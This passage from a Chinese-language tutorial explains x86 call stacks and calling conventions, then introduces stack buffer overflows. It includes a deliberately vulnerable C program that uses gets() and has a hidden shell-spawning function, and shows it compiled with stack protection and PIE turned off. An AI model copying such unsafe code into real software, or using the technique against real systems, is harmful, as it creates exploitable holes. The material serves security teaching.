> > 与函数调用约定规定参数如何传入不同，局部变量以何种方式布局并未规定。编译器计算函数局部变量所需要的空间总数，并确定这些变量存储在寄存器上还是分配在程序栈上(甚至被优化掉)——某些处理器并没有堆栈。局部变量的空间分配与主调函数和被调函数无关，仅仅从函数源代码上无法确定该函数的局部变量分布情况。
> > 基于不同的编译器版本(gcc3.4中局部变量按照定义顺序依次入栈，gcc4及以上版本则不定)、优化级别、目标处理器架构、栈安全性等，相邻定义的两个变量在内存位置上可能相邻，也可能不相邻，前后关系也不固定。若要确保两个对象在内存上相邻且前后关系固定，可使用结构体或数组定义。


3. Stack的变化  

	首先以32位程序为例.
	函数调用时的具体步骤如下：

	1. 主调函数将被调函数所要求的参数，根据相应的函数调用约定，保存在运行时栈中。该操作会改变程序的栈指针。
	> 注：x86平台将参数压入调用栈中。而x86_64平台具有16个通用64位寄存器，故调用函数时前6个参数通常由寄存器传递，其余参数才通过栈传递.  
	
	2. 主调函数将控制权移交给被调函数(使用call指令)。函数的返回地址(待执行的下条指令地址)保存在程序栈中(压栈操作隐含在call指令中)。  
	3. 若有必要，被调函数会设置帧基指针，并保存被调函数希望保持不变的寄存器值。
	4. 被调函数通过修改栈顶指针的值，为自己的局部变量在运行时栈中分配内存空间，并从帧基指针的位置处向低地址方向存放被调函数的局部变量和临时变量。
	5. 被调函数执行自己任务，此时可能需要访问由主调函数传入的参数。若被调函数返回一个值，该值通常保存在一个指定寄存器中(如EAX)。
	6. 一旦被调函数完成操作，为该函数局部变量分配的栈空间将被释放。这通常是步骤4的逆向执行。
	7. 恢复步骤3中保存的寄存器值，包含主调函数的帧基指针寄存器。
	8. 被调函数将控制权交还主调函数(使用ret指令)。根据使用的函数调用约定，该操作也可能从程序栈上清除先前传入的参数。
	9. 主调函数再次获得控制权后，可能需要将先前的参数从栈上清除。在这种情况下，对栈的修改需要将帧基指针值恢复到步骤1之前的值。

> 步骤3与步骤4在函数调用之初常一同出现，统称为函数序(prologue)；步骤6到步骤8在函数调用的最后常一同出现，统称为函数跋(epilogue)。函数序和函数跋是编译器自动添加的开始和结束汇编代码，其实现与CPU架构和编译器相关。除步骤5代表函数实体外，其它所有操作组成函数调用。

 &emsp;&emsp;以下介绍函数调用过程中的主要指令(复习一下哈):

- 压栈(push)：栈顶指针ESP减小4个字节；以字节为单位将寄存器数据(四字节，不足补零)压入堆栈，从高到低按字节依次将数据存入ESP-1、ESP-2、ESP-3、ESP-4指向的地址单元。  
- 出栈(pop)：栈顶指针ESP指向的栈中数据被取回到寄存器；栈顶指针ESP增加4个字节.  
-  返回(ret)：与call指令配合，用于从函数或过程返回。从栈顶弹出返回地址(之前call指令保存的下条指令地址)到EIP寄存器中，程序转到该地址处继续执行(此时ESP指向进入函数时的第一个参数)。若带立即数，ESP再加立即数(丢弃一些在执行call前入栈的参数)。使用该指令前，应使当前栈顶指针所指向位置的内容正好是先前call指令保存的返回地址。

&emsp;&emsp;基于以上指令，使用C调用约定的被调函数典型的函数序和函数跋实现如下:



>若主调函数和调函数均未使用局部变量寄存器EDI、ESI和EBX，则编译器无须在函数序中对其压栈，以便提高程序的执行效率。

&emsp;&emsp;参数压栈指令因编译器而异，如下两种压栈方式基本等效：



&emsp;&emsp;两种压栈方式均遵循C调用约定，但方式二中主调函数在调用返回后并未显式清理堆栈空间。因为在被调函数序阶段，编译器在栈顶为函数参数预先分配内存空间(sub指令)。函数参数被复制到栈中(而非压入栈中)，并未修改栈顶指针，故调用返回时主调函数也无需修改栈顶指针。gcc3.4(或更高版本)编译器采用该技术将函数参数传递至栈上，相比栈顶指针随每次参数压栈而多次下移，一次性设置好栈顶指针更为高效。设想连续调用多个函数时，方式二仅需预先分配一次参数内存(大小足够容纳参数尺寸和最大的函数即可)，后续调用无需每次都恢复栈顶指针。注意，函数被调用时，两种方式均使栈顶指针指向函数最左边的参数。本文不再区分两种压栈方式，"压栈"或"入栈"所提之处均按相应汇编代码理解，若无汇编则指方式二。

&emsp;&emsp;某些情况下，编译器生成的函数调用进入/退出指令序列并不按照以上方式进行。例如，若C函数声明为static(只在本编译单元内可见)且函数在编译单元内被直接调用，未被显示或隐式取地址(即没有任何函数指针指向该函数)，此时编译器确信该函数不会被其它编译单元调用，因此可随意修改其进/出指令序列以达到优化目的。

&emsp;&emsp;尽管使用的寄存器名字和指令在不同处理器架构上有所不同，但创建栈帧的基本过程一致。

&emsp;&emsp;注意，栈帧是运行时概念，若程序不运行，就不存在栈和栈帧。但通过分析目标文件中建立函数栈帧的汇编代码(尤其是函数序和函数跋过程)，即使函数没有运行，也能了解函数的栈帧结构。通过分析可确定分配在函数栈帧上的局部变量空间准确值，函数中是否使用帧基指针，以及识别函数栈帧中对变量的所有内存引用。

4. 函数调用约定  

&emsp;&emsp;创建一个栈帧的最重要步骤是主调函数如何向栈中传递函数参数。主调函数必须精确存储这些参数，以便被调函数能够访问到它们。函数通过选择特定的调用约定，来表明其希望以特定方式接收参数。此外，当被调函数完成任务后，调用约定规定先前入栈的参数由主调函数还是被调函数负责清除，以保证程序的栈顶指针完整性。
&emsp;&emsp;函数调用约定通常规定如下几方面内容：
	1. 函数参数的传递顺序和方式
最常见的参数传递方式是通过堆栈传递。主调函数将参数压入栈中，被调函数以相对于帧基指针的正偏移量来访问栈中的参数。对于有多个参数的函数，调用约定需规定主调函数将参数压栈的顺序(从左至右还是从右至左)。某些调用约定允许使用寄存器传参以提高性能。
	2.栈的维护方式
主调函数将参数压栈后调用被调函数体，返回时需将被压栈的参数全部弹出，以便将栈恢复到调用前的状态。该清栈过程可由主调函数负责完成，也可由被调函数负责完成。
	3. 名字修饰(Name-mangling)策略
又称函数名修饰(Decorated Name)规则。编译器在链接时为区分不同函数，对函数名作不同修饰。

> 若函数之间的调用约定不匹配，可能会产生堆栈异常或链接错误等问题。因此，为了保证程序能正确执行，所有的函数调用均应遵守一致的调用约定。

&emsp;&emsp;下面分别介绍常见的几种函数调用约定,你只需要记住解第一个cdel约定,剩下的作为知识扩展(内容较长,实在不想看就跳过吧,建议了解).  

-  cdecl调用约定
   -  	 又称C调用约定，是C/C++编译器默认的函数调用约定。所有非C++成员函数和未使用stdcall或fastcall声明的函数都默认是cdecl方式。函数参数按照从右到左的顺序入栈，函数调用者负责清除栈中的参数，返回值在EAX中。由于每次函数调用都要产生清除(还原)堆栈的代码，故使用cdecl方式编译的程序比使用stdcall方式编译的程序大(后者仅需在被调函数内产生一份清栈代码)。但cdecl调用方式支持可变参数函数(即函数带有可变数目的参数，如printf)，且调用时即使实参和形参数目不符也不会导致堆栈错误。对于C函数，cdecl方式的名字修饰约定是在函数名前添加一个下划线；对于C++函数，除非特别使用extern "C"，C++函数使用不同的名字修饰方式。

> 扩展阅读
> 可变参数函数支持条件
> > 若要支持可变参数的函数，则参数应自右向左进栈，并且由主调函数负责清除栈中的参数(参数出栈)。
> > 首先，参数按照从右向左的顺序压栈，则参数列表最左边(第一个)的参数最接近栈顶位置。所有参数距离帧基指针的偏移量都是常数，而不必关心已入栈的参数数目。只要不定的参数的数目能根据第一个已明确的参数确定，就可使用不定参数。例如printf函数，第一个参数即格式化字符串可作为后继参数指示符。通过它们就可得到后续参数的类型和个数，进而知道所有参数的尺寸。当传递的参数过多时，以帧基指针为基准，获取适当数目的参数，其他忽略即可。若函数参数自左向右进栈，则第一个参数距离栈帧指针的偏移量与已入栈的参数数目有关，需要计算所有参数占用的空间后才能精确定位。当实际传入的参数数目与函数期望接受的参数数目不同时，偏移量计算会出错！
> > 其次，调用函数将参数压栈，只有它才知道栈中的参数数目和尺寸，因此调用函数可安全地清栈。而被调函数永远也不能事先知道将要传入函数的参数信息，难以对栈顶指针进行调整。
> > C++为兼容C，仍然支持函数带有可变的参数。但在C++中更好的选择常常是函数多态。

- stdcall调用约定(微软命名)

  - Pascal程序缺省调用方式，WinAPI也多采用该调用约定。stdcall调用约定主调函数参数从右向左入栈，除指针或引用类型参数外所有参数采用传值方式传递，由被调函数负责清除栈中的参数，返回值在EAX中。stdcall调用约定仅适用于参数个数固定的函数，因为被调函数清栈时无法精确获知栈上有多少函数参数；而且如果调用时实参和形参数目不符会导致堆栈错误。对于C函数，stdcall名称修饰方式是在函数名字前添加下划线，在函数名字后添加@和函数参数的大小，如_functionname@number。

- fastcall调用约定

  -  stdcall调用约定的变形，通常使用ECX和EDX寄存器传递前两个DWORD(四字节双字)类型或更少字节的函数参数，其余参数按照从右向左的顺序入栈，被调函数在返回前负责清除栈中的参数，返回值在 EAX 中。因为并不是所有的参数都有压栈操作，所以比stdcall和cdecl快些。编译器使用两个@修饰函数名字，后跟十进制数表示的函数参数列表大小(字节数)，如@function_name@number。需注意fastcall函数调用约定在不同编译器上可能有不同的实现，比如16位编译器和32位编译器。另外，在使用内嵌汇编代码时，还应注意不能和编译器使用的寄存器有冲突。

- thiscall调用约定
  - C++类中的非静态函数必须接收一个指向主调对象的类指针(this指针)，并可能较频繁的使用该指针。主调函数的对象地址必须由调用者提供，并在调用对象非静态成员函数时将对象指针以参数形式传递给被调函数。编译器默认使用thiscall调用约定以高效传递和存储C++类的非静态成员函数的this指针参数。
  - thiscall调用约定函数参数按照从右向左的顺序入栈。若参数数目固定，则类实例的this指针通过ECX寄存器传递给被调函数，被调函数自身清理堆栈；若参数数目不定，则this指针在所有参数入栈后再入栈，主调函数清理堆栈。thiscall不是C++关键字，故不能使用thiscall声明函数，它只能由编译器使用。
  - 注意，该调用约定特点随编译器不同而不同，g++中thiscall与cdecl基本相同，只是隐式地将this指针当作非静态成员函数的第1个参数，主调函数在调用返回后负责清理栈上参数；而在VC中，this指针存放在%ecx寄存器中，参数从右至左压栈，非静态成员函数负责清理栈上参数。

- naked call调用约定

  - 对于使用naked call方式声明的函数，编译器不产生保存(prologue)和恢复(epilogue)寄存器的代码，且不能用return返回返回值(只能用内嵌汇编返回结果)，故称naked call。该调用约定用于一些特殊场合，如声明处于非C/C++上下文中的函数，并由程序员自行编写初始化和清栈的内嵌汇编指令。注意，naked call并非类型修饰符，故该调用约定必须与__declspec同时使用，如VC下定义求和函数:

    > 代码示例如下(Windows采用Intel汇编语法，注释符为;)：
```assembly
__declspec(naked) int __stdcall function(int a, int b) {
     ;mov DestRegister, SrcImmediate(Intel) vs. movl $SrcImmediate, %DestRegister(AT&T)
     __asm mov eax, a
     __asm add eax, b
     __asm ret 8
}
```

> `__declspec`是微软关键字，其他系统上可能没有。 

-  pascal调用约定
   -  Pascal语言调用约定，参数按照从左至右的顺序入栈。Pascal语言只支持固定参数的函数，参数的类型和数量完全可知，故由被调函数自身清理堆栈。pascal调用约定输出的函数名称无任何修饰且全部大写。
   -  Win3.X(16位)时支持真正的pascal调用约定；而Win9.X(32位)以后pascal约定由stdcall约定代替(以C约定压栈以Pascal约定清栈)。

 上述调用约定的主要特点如下表所示：



> 关于传参方法:

- 整型和指针参数的传递:
  - 整型参数与指针参数的传递方式相同，因为在32位x86处理器上整型与指针大小相同(均为四字节)。下表给出这两种类型的参数在栈帧中的位置关系。注意，该表基于tail函数的栈帧。



- 浮点参数的传递:
  - 浮点参数的传递与整型类似，区别在于参数大小。x86处理器中浮点类型占8个字节，因此在栈中也需要占用8个字节。下表给出浮点参数在栈帧中的位置关系。图中，调用tail函数的第一个和第三个参数均为浮点类型，因此需各占用8个字节，三个参数共占用20个字节。表中word类型的大小是4字节。



- 结构体和联合体参数的传递:
  - 结构体和联合体参数的传递与整型、浮点参数类似，只是其占用字节大小视数据结构的定义不同而异。x86处理器上栈宽是4字节，故结构体在栈上所占用的字节数为4的倍数。编译器会对结构体进行适当的填充以使得结构体大小满足4字节对齐的要求。

  - 对于一些RISC处理器(如PowerPC)，其参数传递并不是全部通过栈来实现。PowerPC处理器寄存器中，R3～R10共8个寄存器用于传递整型或指针参数，F1～F8共8个寄存器用于传递浮点参数。当所需传递的参数少于8个时，不需要用到栈。结构体和long double参数的传递通过指针来完成，这与x86处理器完全不同。PowerPC的ABI规范中规定，结构体的传递采用指针方式，而不是像x86处理器那样将结构从一个函数栈帧中拷贝到另一个函数栈帧中，显然x86处理器的方式更低效。可见，PowerPC程序中，函数参数采用指向结构体的指针(而非结构体)并不能提高效率，不过通常这是良好的编程习惯。

- 返回值的传递:
  - 函数返回值可通过寄存器传递。当被调用函数需要返回结果给调用函数时：

	1. 若返回值不超过4字节(如int、short、char、指针等类型)，通常将其保存在EAX寄存器中，调用方通过读取EAX获取返回值。
	2.  若返回值大于4字节而小于8字节(如long long或_int64类型)，则通过EAX+EDX寄存器联合返回，其中EDX保存返回值高4字节，EAX保存返回值低4字节。
	3.   若返回值为浮点类型(如float和double)，则通过专用的协处理器浮点数寄存器栈的栈顶返回
	4.   若返回值为结构体或联合体，则主调函数向被调函数传递一个额外参数，该参数指向将要保存返回值的地址。即函数调用foo(p1, p2)被转化为foo(&p0, p1, p2)，以引用型参数形式传回返回值。具体步骤可能为：a.主调函数将显式的实参逆序入栈；b.将接收返回值的结构体变量地址作为隐藏参数入栈(若未定义该接收变量，则在栈上额外开辟空间作为接收返回值的临时变量)；c. 被调函数将待返回数据拷贝到隐藏参数所指向的内存地址，并将该地址存入%eax寄存器。因此，在被调函数中完成返回值的赋值工作。

	> 注意，函数如何传递结构体或联合体返回值依赖于具体实现。不同编译器、平台、调用约定甚至编译参数下可能采用不同的实现方法。如VC6编译器对于不超过8字节的小结构体，会通过EAX+EDX寄存器返回。而对于超过8字节的大结构体，主调函数在栈上分配用于接收返回值的临时结构体，并将地址通过栈传递给被调函数；被调函数根据返回值地址设置返回值(拷贝操作)；调用返回后主调函数根据需要，再将返回值赋值给需要的临时变量(二次拷贝)。实际使用中为提高效率，通常将结构体指针作为实参传递给被调函数以接收返回值。

	5.  不要返回指向栈内存的指针，如返回被调函数内局部变量地址(包括局部数组名)。因为函数返回后，其栈帧空间被“释放”，原栈帧内分配的局部变量空间的内容是不稳定和不被保证的。

&emsp;&emsp;函数返回值通过寄存器传递，无需空间分配等操作，故返回值的代价很低。基于此原因，C89规范中约定，不写明返回值类型的函数，返回值类型默认为int。但这会带来类型安全隐患，如函数定义时返回值为浮点数，而函数未声明或声明时未指明返回值类型，则调用时默认从寄存器EAX(而不是浮点数寄存器)中获取返回值，导致错误！因此在C++中，不写明返回值类型的函数返回值类型为void，表示不返回值。

> 扩展阅读
> GCC返回结构体和联合体
> 
> > 通常GCC被配置为使用与目标系统一致的函数调用约定。这通过机器描述宏来实现。但是，在一些目标机上采用不同方式返回结构体和联合体的值。因此，使用PCC编译的返回这些类型的函数不能被使用GCC编译的代码调用，反之亦然。但这并未造成麻烦，因为很少有Unix库函数返回结构体或联合体。
GCC代码使用存放int或double类型返回值的寄存器来返回1、2、4或8个字节的结构体和联合体(GCC通常还将此类变量分配在寄存器中)。其它大小的结构体和联合体在返回时，将其存放在一个由调用者传递的地址中(通常在寄存器中)。
相比之下，PCC在大多目标机上返回任何大小的结构体和联合体时，都将数据复制到一个静态存储区域，再将该地址当作指针值返回。调用者必须将数据从那个内存区域复制到需要的地方。这比GCC使用的方法要慢，而且不可重入。
在一些目标机上(如RISC机器和80386)，标准的系统约定是将返回值的地址传给子程序。在这些机器上，当使用这种约定方法时，GCC被配置为与标准编译器兼容。这可能会对于1，2，4或8字节的结构体不兼容。
GCC使用系统的标准约定来传递参数。在一些机器上，前几个参数通过寄存器传递；在另一些机器上，所有的参数都通过栈传递。原本可在所有机器上都使用寄存器来传递参数，而且此法还可能显著提高性能。但这样就与使用标准约定的代码完全不兼容。所以这种改变只在将GCC作为系统唯一的C编译器时才实用。当拥有一套完整的GNU 系统，能够用GCC来编译库时，可在特定机器上实现寄存器参数传递。
在一些机器上(特别是SPARC)，一些类型的参数通过“隐匿引用”(invisible reference)来传递。这意味着值存储在内存中，将值的内存地址传给子程序。

&emsp;&emsp;到这里,我知道的关于函数调用栈的有关东西已经差不多讲完了,心态先别崩,最难的部分已经结束了,下面开始最有意思的部分.  

---

#### 缓冲区溢出原理  

&emsp;&emsp;缓冲区说的通俗一点就是程序在运行时,可供使用的一部分内存.比如说stack和heap,还有一些存储常量的内存区域,比如bss段(bss segment)等等.下面我们来介绍一下最简单最经典的栈溢出(Stack Overflow).

##### 环境搭建  
&emsp;&emsp;在linux下搭建漏洞利用的环境十分简单,只需要如下几个命令:

```sh
#有需求者自行换源
sudo apt-get update && apt-get upgrade
sudo apt-get install build-essential gcc g++ make python-pip
pip install pwntools
```
&emsp;&emsp;如果缺啥库请自行百度安装

##### 栈溢出原理  
&emsp;&emsp;栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏，类似的还有堆溢出，bss 段溢出等溢出方式。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是

- 程序向栈上写入数据
- 写入的数据长度没有被良好的控制

##### 举个栗子

&emsp;&emsp;最经典的栈溢出利用是覆盖程序的返回地址,使其返回到攻击者想要的地址,**需要确保这个地址所在的段有可执行权限**,即权限为(--X)
> 注:
> 
> > 通常的计算机系统中,我们规定用户对文件有三种权限即*Read Write Execute*(RWX)读 写 可执行.在linux的终端里输入`ls -al`命令,结果如下:
```sh
root@Aurora:~/File/doc # ls -al
总用量 2028
drwxr-xr-x 3 root root    4096 8月  22 21:58 .
drwxr-xr-x 7 root root    4096 8月  23 23:35 ..
-rw-r--r-- 1 root root   51486 8月  22 21:58 assembly.md
-rw-r--r-- 1 root root 2007460 8月  22 21:55 assembly.pdf
drwxr-xr-x 2 root root    4096 8月  13 00:17 pic
```
> > 你可以看到前面有一堆rwx或者'-'之类的,这就代表用户对该文件的权限,`ls`这条命令是我们比较常用的命令,他是list的缩写,作用是列举当前目录下的文件(目录类似于文件夹). 后面的 `-al`是两个参数,a代表*all*,l代表*line*,就是把所有的文件(包含隐藏文件)按行展示出来.就是上面的结果,顺便一提,名字以`.`开头的文件都是隐藏文件比如`.hello.cpp`,ls命令不加参数a无法看到隐藏文件.

你可以使用图形化的编辑器vscode gedit或者leafpad编写程序,我是vim爱好者,不建议你们使用vim(逃

下面来个简单的例子:

```c
#include<stdio.h>
#include<stdlib.h>

void pwn(){
    system("/bin/sh");
}

void vulnerable(){
    char buffer[32];
    char hello[] = "Hello,I'm dyf.";
    printf("%s\n",hello);
    printf("\nQAQ\n");
    printf("\nDo you have something to say?\n");
    gets(buffer);
    return;
}

int main(){
    vulnerable();
    return 0;
}
```
&emsp;&emsp;这个程序的逻辑就是读取一段字符串,然后将其输出,理论上来说pwn()函数是没有被执行的,但是利用stackoverflow我们可以控制程序执行pwn()函数,他会返回给我们一个shell.
> shell十分不严谨的描述: linux下的终端
> 我们希望通过这个程序来获得一个可以执行命令的终端,这样就可以控制目标靶机.

我们用如下命令进行编译:
```sh
> sudo gcc -o a buffer.c -no-pie -m32 -fno-stack-protector 
```

> 注:
>
> > 这里使用sudo只是为了将生成的目标文件的owner设置为root,当你以普通身份提权后可是获得root权限

```sh
root@Aurora:/home/code/pwn/challenge/1 # sudo gcc -o a buffer.c -no-pie -m32 -fno-stack-protector 
buffer.c: In function ‘vulnerable’:
buffer.c:14:5: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
     gets(buffer);
     ^~~~
     fgets
/bin/ld: /tmp/ccQDe6dj.o: in function `vulnerable':
buffer.c:(.text+0x97): 警告：the `gets' function is dangerous and should not be used.
```

&emsp;&emsp;可见gets本身是一个十分危险的函数,他不会检查字符串的长度,而是以回车来判断输入是否结束,及其容易引发栈溢出.

&emsp;&emsp;解释一下这几个参数的作用:

- `-m32`:指的是生成32位程序
- `-fno-stack-protector`:字面意思,关闭栈保护,不生成canary
- `-no-pie`:关闭pie(Position Independent Executable),这个pie并不能吃,他使程序的地址被打乱,导致我们无法返回到固定目标地址.

&emsp;&emsp;你可以使用如下命令来运行它:

```sh
> ./a
```

&emsp;&emsp;编译成功后我们可以使用checksec工具检查编译生成的文件:

```sh
root@Aurora:/home/code/pwn/challenge/1 # checksec a 
[*] '/home/code/pwn/challenge/1/a'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

下面我们来分析一下这个vulnerable()函数:
首先,大家可以使用objdump工具进行反汇编,得到目标文件a的汇编代码:

```sh
> objdump -d a
```
然后找到这一段:

> 注:
>
> > 你们的地址与我的不同是正常的(一样就怪了...),所以下面的过程要求你理解原理

```assembly
080491ad <vulnerable>:
 80491ad:       55                      push   %ebp
 80491ae:       89 e5                   mov    %esp,%ebp
 80491b0:       53                      push   %ebx
 80491b1:       83 ec 34                sub    $0x34,%esp
 80491b4:       e8 07 ff ff ff          call   80490c0 <__x86.get_pc_thunk.bx>
 80491b9:       81 c3 47 2e 00 00       add    $0x2e47,%ebx
 80491bf:       c7 45 c9 48 65 6c 6c    movl   $0x6c6c6548,-0x37(%ebp)
 80491c6:       c7 45 cd 6f 2c 49 27    movl   $0x27492c6f,-0x33(%ebp)
 80491cd:       c7 45 d1 6d 20 64 79    movl   $0x7964206d,-0x2f(%ebp)
 80491d4:       66 c7 45 d5 66 2e       movw   $0x2e66,-0x2b(%ebp)
 80491da:       c6 45 d7 00             movb   $0x0,-0x29(%ebp)
 80491de:       83 ec 0c                sub    $0xc,%esp
 80491e1:       8d 45 c9                lea    -0x37(%ebp),%eax
 80491e4:       50                      push   %eax
 80491e5:       e8 56 fe ff ff          call   8049040 <puts@plt>
 80491ea:       83 c4 10                add    $0x10,%esp
 80491ed:       83 ec 0c                sub    $0xc,%esp
 80491f0:       8d 83 10 e0 ff ff       lea    -0x1ff0(%ebx),%eax
 80491f6:       50                      push   %eax
 80491f7:       e8 44 fe ff ff          call   8049040 <puts@plt>
 80491fc:       83 c4 10                add    $0x10,%esp
 80491ff:       83 ec 0c                sub    $0xc,%esp
 8049202:       8d 83 18 e0 ff ff       lea    -0x1fe8(%ebx),%eax
 8049208:       50                      push   %eax
 8049209:       e8 32 fe ff ff          call   8049040 <puts@plt>
 804920e:       83 c4 10                add    $0x10,%esp
 8049211:       83 ec 0c                sub    $0xc,%esp
 8049214:       8d 45 d8                lea    -0x28(%ebp),%eax
 8049217:       50                      push   %eax
 8049218:       e8 13 fe ff ff          call   8049030 <gets@plt>
 804921d:       83 c4 10                add    $0x10,%esp
 8049220:       90                      nop
 8049221:       8b 5d fc                mov    -0x4(%ebp),%ebx
 8049224:       c9                      leave  
 8049225:       c3                      ret    
```

